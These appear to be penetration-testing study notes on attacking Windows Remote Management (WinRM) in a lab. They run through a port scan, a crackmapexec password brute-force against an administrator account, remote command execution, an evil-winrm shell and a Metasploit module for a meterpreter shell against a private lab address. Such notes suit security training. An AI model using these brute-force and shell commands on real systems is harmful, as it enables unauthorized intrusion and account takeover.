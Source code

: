 ### Exploiting WinRM
- WinRM(Windwos Remote Management)
- Windows Remote management is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
- Microsoft implementated WinRM in to Windows in order to make life easier for system administrators.
- WinRM is typically used in the following ways
- - Remotely access and interact with Windows hosts on a local network
- - Remotely access and execute commands on Windows systems
- - Manage and configure windows systems remotely
- WinRM typically uses TCP port 5985 and 5986 (HTTPS)
- WinRM implements access control and security for communication between systems through various forms of authentication
- We can utilize a utility called "crackmapexec" to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target systems
- We can also utilize a ruby script called "evil-winrm" to obtain a command shell session on the target system.
#### Exploit
- nmap -sV -p- 10.2.18.45 [ scan all the ports to find services for WinRM,WinRM don't explicitly show banners to identify it's services,we can confirm it by it's default port]

#### Crackmapexec
- crackmapexec [ this will show documentatin  for crackmapexec]
- crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [ it will use for winrm brute force,crackmapexec also can be useful winrm,ldap,ssh,mssql,smb,rdp protocols]

- crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami" [ in x paramter value we can execute different commands ]

#### evil-winrm
- evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.45 [this will give us shell]
#### Metasploit
- service postgresql start
- msfconsole
- search winrm_script
- use exploit/windows/winrm/winrm_script_exec
- set everything requires
- this will give us meterpreter shell

